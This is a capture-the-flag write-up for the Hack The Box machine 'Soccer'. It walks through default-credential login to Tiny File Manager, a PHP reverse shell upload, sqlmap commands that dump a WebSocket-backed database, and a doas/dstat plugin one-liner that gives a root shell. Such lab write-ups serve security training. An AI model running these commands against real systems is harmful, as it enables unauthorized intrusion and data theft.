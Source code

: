 ```yaml
---
layout: post
title:  "Soccer - An HTB easy machine"
date:   2024-12-1 18:36:56 +0200
categories: ctf
---
```


[Link to target](https://app.hackthebox.com/machines/Soccer)

# Capture the Flag (CTF) Write-Up: Soccer.htb

## Table of Contents
1. [Initial Enumeration](#initial-enumeration)
    - [Nmap Scan](#nmap-scan)
    - [Key Findings](#key-findings)
2. [Enumeration and Exploitation](#enumeration-and-exploitation)
    - [Discovering Tiny File Manager](#discovering-tiny-file-manager)
    - [Exploiting Tiny File Manager](#exploiting-tiny-file-manager)
    - [Uploading Reverse Shell](#uploading-reverse-shell)
3. [Post-Exploitation](#post-exploitation)
    - [Discovering Virtual Host](#discovering-virtual-host)
    - [Analyzing New Web Application](#analyzing-new-web-application)
    - [SQL Injection via WebSockets](#sql-injection-via-websockets)
4. [Privilege Escalation](#privilege-escalation)
    - [Analyzing SUID Programs](#analyzing-suid-programs)
    - [Exploiting dstat with Custom Plugin](#exploiting-dstat-with-custom-plugin)
5. [Conclusion](#conclusion)

---

## Initial Enumeration

### Nmap Scan
I started with an **Nmap** scan to identify open ports and services.

```bash
nmap -sV -sC -oN nmap.txt 10.10.11.194
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
```

### Key Findings
- **HTTP Server:** Accessible at `http://soccer.htb/`.
- **SSH Service:** Running OpenSSH 8.2p1.
- **Unusual Service:** Port 9091 showing potential custom functionality.

## Enumeration and Exploitation

### Discovering Tiny File Manager
Using directory brute-forcing tools like **ffuf**, I discovered a Tiny File Manager instance:
![c53a8d623285f69236b32da30a688f2e.png](/assets/soccer/c53a8d623285f69236b32da30a688f2e.png)

- **URL:** `http://soccer.htb/tiny/`
- **Version:** 2.4.3 (retrieved from source code comments).

### Exploiting Tiny File Manager
After searching online, I found the **default credentials** for Tiny File Manager:
![f4769880423d6a33128b411a1d1f8b99.png](/assets/soccer/f4769880423d6a33128b411a1d1f8b99.png)

- **Username:** admin
- **Password:** admin@123

Using these credentials, I logged into the file manager successfully.

![40de08c94e1e4f29f3499f9c9d2e19a9.png](/assets/soccer/40de08c94e1e4f29f3499f9c9d2e19a9.png)

### Uploading Reverse Shell
I noticed that the **uploads** directory had write permissions. I created a **PHP reverse shell** and uploaded it through the file manager.

With the shell uploaded, I accessed it to gain an initial foothold on the server.

## Post-Exploitation

### Discovering Virtual Host
While enumerating **nginx configuration files**, I identified a virtual host configuration pointing to a secondary application.

- **Virtual Host:** `soc-player.soccer.htb`

![330e5a73c7b25874da1de52f56ce540e.png](/assets/soccer/330e5a73c7b25874da1de52f56ce540e.png)

### Analyzing New Web Application

![6c162e98c432ccc61690e5ac3e7bc21a.png](/assets/soccer/6c162e98c432ccc61690e5ac3e7bc21a.png)

The new application presented a **login page**. After creating an account, I observed that it utilized **WebSocket requests** to handle input.
![122d210b22013cdb7766a86709b209b2.png](/assets/soccer/122d210b22013cdb7766a86709b209b2.png)
- Example WebSocket request:
    ```json
    {"id":"text"}
    ```

### SQL Injection via WebSockets
Using **sqlmap**, I tested for SQL injection in the WebSocket endpoint:
![2bcbaee8db9a1f86659de7a561c7f398.png](/assets/soccer/2bcbaee8db9a1f86659de7a561c7f398.png)
```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
```
Results:
back-end DBMS: MySQL >= 5.0.12
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys

Dumping the accounts table from soccer_db:
```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' -D soccer_db -T accounts --dump --threads 10 --level 5 --risk 3 --batch
```
| id   | email             | password   | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | *REDACTED* | player   |
+------+-------------------+----------------------+----------+

## Privilege Escalation

### Analyzing SUID Programs
After logging into SSH with the `player` credentials, I searched for SUID programs. I discovered that `doas` was configured to allow the `player` user to run `dstat` as root.

**Configuration:**
```plaintext
permit nopass player as root cmd /usr/bin/dstat
```

### Exploiting dstat with Custom Plugin
Using the information from [GTFOBins](https://gtfobins.github.io/gtfobins/dstat/), I created a custom plugin to execute arbitrary commands:

1. Create the plugin:
    ```python
    echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py
    ```

2. Execute `dstat` with the plugin:
    ```bash
    doas -u root /usr/bin/dstat --xxx
    ```

**Result:** I obtained a root shell!

![7d0c72c6cb4604ec17358cecafa3afc9.png](/assets/soccer/7d0c72c6cb4604ec17358cecafa3afc9.png)
## Conclusion
This CTF demonstrated various techniques and highlighted critical vulnerabilities in system and application security:

- **Enumeration:** Identified services and applications using tools like Nmap and ffuf.
- **Exploitation:** Gained access via default credentials on Tiny File Manager and exploited SQL injection vulnerabilities in WebSocket endpoints.
- **Post-Exploitation:** Used the initial foothold to uncover misconfigurations in the system, such as virtual host information and database credentials.
- **Privilege Escalation:** Leveraged a misconfigured `doas` command to exploit the `dstat` program with a custom plugin and escalate privileges to root.

This challenge underscored the importance of:
1. Properly securing web applications (e.g., avoid default credentials).
2. Validating inputs to prevent SQL injection.
3. Configuring SUID programs and privilege escalation paths securely.

In the end, I successfully obtained root access, completing the challenge.
